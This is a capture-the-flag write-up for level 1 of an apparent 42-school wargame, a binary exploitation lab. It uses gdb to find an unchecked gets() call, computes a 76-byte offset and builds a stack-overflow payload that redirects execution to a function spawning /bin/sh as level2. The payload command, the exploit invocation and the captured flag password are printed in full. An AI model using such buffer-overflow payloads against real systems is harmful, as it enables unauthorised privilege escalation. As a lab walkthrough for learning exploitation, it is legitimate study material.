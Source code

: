 # Level 1

## First clue
- once logged in as level1 we find a `level1` file, owned by `level2`:
- `level1` is an executable
- we try to execute it without arguments and we get the prompt back
- nothing happens if we write something

## Inspect with gdb
- we check the functions in the executable. the presence of gets() function reveals a potential vulnerability (`fget()` is more safe)
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main

```
- there are two main functions, `main` and `run`
- first we inspect main
## Main
```
  (gdb) disas main
  Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

```
- <+6> is substracting 80 bytes from the register `esp`, that is the variable that the CPU uses to keep track of the last procedure executed. This instruction allocate 80 bytes in the stack for a variable
- <+16> is calling the `gets()` function using as argument the buffer of which the address has been pushed onto the stack in the previous instruction (+13), as usual just before the calling of a function
- <+21> and <+22> restore the control flow back to the runtime where the main function had been called, effectively updating the instruction pointer (eip) with the address stored in the return address located in the stack frame.
- the return is where we can operate, because we want to overwrite the return address (stored in `eip`) taking advantage of the fct that the gets() function doesnt't check the length of the buffer and if we write in the buffer a number of bytes higher than what the program has allocate we can rite directly in the `eip`
- to do that we need 2 things: 
    1. know exactly the offset of the buffer (we know that 80 bytes has been allocated but not exactly the offset). 
    2. which payload to execute and how. sure we need to find a way to execute `cat /user/level2/home/.pass` as `level2`but how?

## How to get the offset 
- we create a pattern of 80 characters (the same number of bytes allocated being 1 char = 1 byte) and save it i na file in the only place where we can save data: `python -c'print"a"*81' > /tmp/pattern`
- we pass this pattern as argument of ./level1 using gdb: 
    ``` 
    gdb ./level1
    run < /temp/pattern
    ```
    and we get the address returned by the program causing the segfault:
    ```
    Starting program: /home/user/level1/level1 </tmp/pattern

    Program received signal SIGSEGV, Segmentation fault.
    0x61616161 in ?? ()
    ```
- since `61` is the ASCII for the character "a" we can constate that the address contains actually 4 "a" characters, that means that 80 - 4 = the exact point where the buffer is overflowed = 76
- to confirm that we use the `info registers` gdb command:
    ```
    (gdb) info registers
    eax            0xbffff6e0	-1073744160
    ecx            0xb7fd28c4	-1208145724
    edx            0xbffff6e0	-1073744160
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff730	0xbffff730
    ebp            0x61616161	0x61616161
    esi            0x0	0
    edi            0x0	0
    eip            0x61616161	0x61616161
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
## Which payload to execute
- we inspect the run function
```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```
- <+41>, <+46>, and <+53> are the most critical instructions within the run function. The `fwrite` function writes data to a file stream, and the subsequent system call indicates the execution of a shell command. But what shell command is being executed? To determine this, we inspect the argument passed to the system function:
    ```
    (gdb) x/s 0x8048584
    0x8048584:	 "/bin/sh"
    ```
- and we find out that the shell command is the shell executable
- ok so if we pass the address where the run function start as return of the main function we can actually execute /bin/sh 

### Buffer overflow return overwriting:
- we get the run function start address from the `info function` or `disas run` cmd output: `0x08048444  run`
- we create a file containing 76 char + the address of run function reversing it (for little endian):
`python -c 'print"a"*76+"\x44\x84\x04\x08"' > /tmp/exploit`
- we pass the `exploit` file as argument to `./level1`and we get a response `Good... Wait what?`but after that a segfault.
- we have to find a way to keep the stdin open after cat reads from the file, ensuring the program doesn't crash when system tries to read from it: `cat /tmp/exploit - | ./level1`
## Solution
- this way the prompt is returned to us and we can try to cat the .pass of level2:
```
`cat /tmp/exploit - | ./level1`
Good... Wait what?
> whoami
level2
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
